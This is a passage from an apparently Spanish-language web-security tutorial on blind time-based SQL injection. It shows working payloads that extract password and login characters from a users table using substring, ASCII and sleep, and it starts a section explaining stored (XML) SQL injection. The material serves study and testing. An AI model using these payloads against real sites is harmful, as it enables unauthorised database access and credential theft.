 y para el caso de ```password``` sería de la siguiente forma:

```sql
' or 1=1 AND substring((SELECT password FROM users LIMIT 1,1),1,1) = '6' AND sleep(5)-- -
```

[![sqlinjectblindsleep27](/images/sqlinjectblindsleep27.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep27.png)

Pero como sería mucho más largo el hash, simplemente se muestra uno como ejemplo referecial.

#### Opción ocupando ASCII

```sql
' or 1=1 AND ASCII(substring((SELECT login FROM users LIMIT 1,1),1,1)) = 98 AND sleep(5)-- -
```

### SQL Injection Stored (XML)

Es un tipo de ataque de inyección SQL en el cual el atacante inserta código malicioso en una consulta SQL almacenada en una aplicación web, permitiéndole ejecutar comandos arbitrarios en la base de datos. A diferencia de una inyección SQL tradicional, que suele ser utilizada para obtener información o realizar cambios en una base de datos, una inyección SQL XML almacenada permite al atacante escribir y almacenar su propio código malicioso en la base de datos, lo que puede permitirle realizar acciones más avanzadas, como la creación de usuarios maliciosos o la modificación de datos críticos.
